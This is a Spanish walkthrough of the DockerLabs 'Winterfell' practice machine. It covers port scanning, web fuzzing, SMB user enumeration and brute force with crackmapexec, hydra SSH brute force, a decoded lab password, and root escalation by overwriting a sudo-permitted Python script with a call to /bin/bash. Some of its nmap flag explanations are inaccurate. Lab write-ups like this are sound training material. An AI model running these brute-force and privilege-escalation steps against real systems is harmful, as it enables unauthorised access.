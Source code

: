 # Winterfell

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Winterfell`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

Tenemos 4 puertos abiertos.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_1.jpg)     

Vamos a echar un vistazo a lo que corre en el puerto 80.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_2.jpg)  

Bueno, a primera vista no hay nada de interesante, a parte un posible nombre de usuario, **jon**.  
Probamos a hacer un poco de fuzzing web a la busqueda de directorios ocultos.  
Para ellos utilizaremos la herramienta **wfuzz**.  

`sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/FUZZ`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_3.jpg)   

Bien, descubrimos un directorio que se llama "dragon".  
Vamos a ver que hay en esta página.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_4.jpg)    

Si abrimos el fichero nombrado "EpisodiosT1" vemos un listado.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_5.jpg)   

Podemos intentar a copiar este listado en un fichero que llamaremos pass.txt y utilizarlo como nuestro diccionario para ataque de fuerza bruta.  
Antes pero, debemos intentar enumerar los usuarios.  
Para ello usaremos la herramienta **enum4linux**.  
Ejecutamos el comando `sudo enum4linux -a 172.17.0.2` y vemos que nos saca 3 usuarios.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_6.jpg)   

Ahora podemos intentar utilizar el diccionario que nos hemos creado anteriormente e intentar un ataque de fuerza bruta contra smb.  
Utilizaremos la herramienta **crackmapexec** y ejecutaremos el comando:  

`sudo crackmapexec smb 172.17.0.2 -u 'jon' -p pass.txt`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_7.jpg)     

Perfecto, tenemos una contraseña valida.   
Ahora intentaremos enumerar los recursos a los que podemos acceder.   

`sudo smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_8.jpg)   

Ahora nos conectamos al recurso shared para ver si hay algo interesante.   

`sudo smbclient //172.17.0.2/shared -U jon`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_9.jpg)    

Nos descargamos el fichero con el comando `get`.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_10.jpg)      

Si abrimos el ficheros vemos que hay una valiosa información.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_11.jpg)    

Intentamos decriptarla con este comando.  

`echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d`  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_12.jpg)    

Ahora que tenemos una contraseña podemos crearnos un diccionario con los 3 nombres de usuarios (que llamaremos **user.txt**) que hemos descubierto anteriormente y realizar un ataque de fuerza bruta.  
Hecho esto usamoas la herramienta hydra con el comando:  

`sudo hydra -L users.txt -P pass.txt ssh://172.17.0.2 `  

y listo, obtenemos una combinación valida.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_13.jpg)     

Una vez que nos logeamos con el usuario jon le damos al comando `sudo -l` para intentar escalar privilegios.  

![W](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/winterfell/W_14.jpg)     

Lo que podemos hacer es borrar el fichero **.mensaje.py** y volver a crearlo insertando este código:  

```
import os    
os.system("/bin/bash")
```










